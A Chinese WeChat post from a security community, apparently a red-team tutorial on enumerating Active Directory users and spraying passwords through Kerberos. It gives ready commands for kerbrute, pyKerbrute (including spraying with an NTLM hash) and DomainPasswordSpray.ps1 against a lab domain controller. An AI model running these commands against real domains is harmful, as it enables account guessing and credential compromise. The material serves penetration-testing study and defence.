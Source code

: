 #  域内用户枚举和密码喷洒攻击

原创 zksmile  [ SecHub网络安全社区 ](javascript:void\(0\);)

**SecHub网络安全社区** ![]()

微信号 secevery0x01

功能介绍
隶属于SecHub网络安全社区，致力于研究渗透测试、红蓝对抗、应急响应、实战案例、钓鱼社工、和漏洞分析，定期分享实战案例、技术教程、安全工具等前沿网络安全资源。

____

___发表于_

收录于合集 #内网渗透 12个

**点击蓝字 关注我们**

![]()

 **免责声明**

本文发布的工具和脚本，仅用作测试和学习研究，禁止用于商业用途，不能保证其合法性，准确性，完整性和有效性，请根据情况自行判断。

如果任何单位或个人认为该项目的脚本可能涉嫌侵犯其权利，则应及时通知并提供身份证明，所有权证明，我们将在收到认证文件后删除相关内容。

文中所涉及的技术、思路及工具等相关知识仅供安全为目的的学习使用，任何人不得将其应用于非法用途及盈利等目的，间接使用文章中的任何工具、思路及技术，我方对于由此引起的法律后果概不负责。

 **添加星标不迷路  
**

由于公众号推送规则改变，微信头条公众号信息会被折叠，为了避免错过公众号推送，请大家动动手指设置“星标”，设置之后就可以和从前一样收到推送啦![](https://res.wx.qq.com/t/wx_fed/we-
emoji/res/v1.3.10/assets/newemoji/2_04.png)

# 一、前言

在 Kerberos 协议认证的 AS-REQ 阶段，cname 的值是用户名。当用户不存在时，返回包提示错误。当用户名存在，密码正确和密码错误时，AS-
REP的返回包不一样。所以可以利用这点，对域内进行域用户枚举和密码喷洒攻击

# 二、域内用户枚举

## 1.kerbrute

    
    
    https://github.com/ropnop/kerbrute/releases		#下载地址  
    

需要获取dc的ip，域名，如这里将想要爆破的用户放入user.txt中。

    
    
    .\kerbrute_windows_amd64.exe userenum --dc 192.168.30.12 -d test.com .\user.txt  
    

![]()

## 2.PY版本pyKerbrute

    
    
    https://github.com/3gstudent/pyKerbrute		#下载地址  
    

用Python写的版本，使用同样需要DC的IP、域名，如这里将想要爆破的用户放入user.txt

    
    
    python2 EnumADUser.py 192.168.30.12 test.com user.txt udp  
    或  
    python2 EnumADUser.py 192.168.30.12 test.com user.txt tcp  
    

![]()

# 三、密码喷洒攻击

密码喷洒，是用固定的密码去跑用户名。

## 1.kerbrute

    
    
    .\kerbrute_windows_amd64.exe passwordspray --dc 192.168.30.12 -d test.com .\user.txt passw12#  
    

![]()

## 2.PY版本 pyKerbrute

    
    
    针对明文进行喷洒  
    python2 ADPwdSpray.py 192.168.30.12 test.com user.txt clearpassword passw12# tcp  
       
    针对哈希进行喷洒  
    python2 ADPwdSpray.py 192.168.30.12 test.com user.txt ntlmhash F6502CBE4802F94AB472288970C124CD udp  
    

![]()

## 3.DomainPasswordSpray.ps1

默认情况下它将利用LDAP从域中导出用户列表，然后扣掉被锁定的用户，再用固定密码进行密码喷洒。需要使用域权限账户

    
    
    https://github.com/dafthack/DomainPasswordSpray		#下载地址  
    

使用如下

    
    
    Import-Module .\DomainPasswordSpray.ps1  
    Invoke-DomainPasswordSpray -Password 密码  
    

![]()

  

  

欢迎关注SecHub网络安全社区，SecHub网络安全社区目前邀请式注册，邀请码获取见公众号菜单【邀请码】

 **#**

  

 **企业简介    **

  

 **赛克艾威 - 专注政企安全服务**

 **  
**

       北京赛克艾威科技有限公司（简称：赛克艾威），成立于2016年9月，具有中国网络安全审查技术与认证中心安全风险评估服务三级资质CCRC，信息安全保障人员资质CISAW（安全评估专家级）。

  

安全评估|渗透测试|漏洞扫描|安全巡检

代码审计|钓鱼演练|应急响应|安全运维

重大时刻安保|企业安全培训

![]()

 **联系方式**

电话｜010-86460828

官网｜https://sechub.com.cn

![]()

 **关注我们**

![]()![]()![]()

 **公众号：** SecHub网络安全社区

 **哔哩号：** SecHub官方账号

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

